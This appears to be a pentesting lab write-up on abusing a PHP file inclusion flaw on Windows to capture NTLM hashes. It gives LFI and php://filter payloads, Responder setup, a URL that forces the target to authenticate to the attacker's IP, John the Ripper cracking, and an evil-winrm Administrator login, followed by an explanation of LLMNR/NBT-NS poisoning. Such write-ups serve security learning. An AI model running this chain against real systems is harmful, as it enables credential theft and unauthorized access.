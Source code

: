 ```yaml
---
title: 'Remote File Include'
desc: 'PHP upon Windows Services abusing NTLM'
tags: 'windows,responder,tools'
---
```



# Remote File Include

This access type abuse the Local File Include (LFI) vulnerability. Which allows to include paths in the URL like "http://target.com/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts".

This is a wordlist to find common paths to resources. https://github.com/drtychai/wordlists/blob/master/intruder/lfi.txt

It's possible to get a page in base64 looking for credentials abusing the url apllying filters, php filters in this case: index.php?page=php://filter/convert.base64-encode/resources=index.php

See more in https://book.hacktricks.xyz/pentesting-web/file-inclusion

1. responder: set the interface

```
# here is using the VPN to access the target
responder -I tun0 
```

2. vulnerable URL: request for our machine

```
"http://target.com/index.php?page=//10.10.14.16/somefile"
```

3. Responder gives a Hash
4. Save the Hash in file
5. Break the Hash using John the Ripper + a wordlist

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
$> badminton
```

6. evil-rwin

```
evil-winrm -i 10.129.243.212 -u Administrator -p badminton 
```

## How NTLM is abussed

If a Windows client cannot resolve a hostname using the DNS service, 
it pushed the multicast name resolution protocol or better called “LLMNR” 
to ask neighboring computers to resolve IPv4 and even under IPv6 addresses.

If the request using LLMNR fails, the NetBios Name Service or NBT-NS protocol 
was reasserted which accomplishes the same goal as above.

So when a host uses LLMNR or NBT-NS to resolve a request for a network resource, 
it is possible that any host on the network that knows the IP address 
of the queried host can respond. Even if a host responds to one of these requests 
with incorrect information, it will still be considered legitimate, 
at that stage where the Responder.py tool is placed to capture credentials.





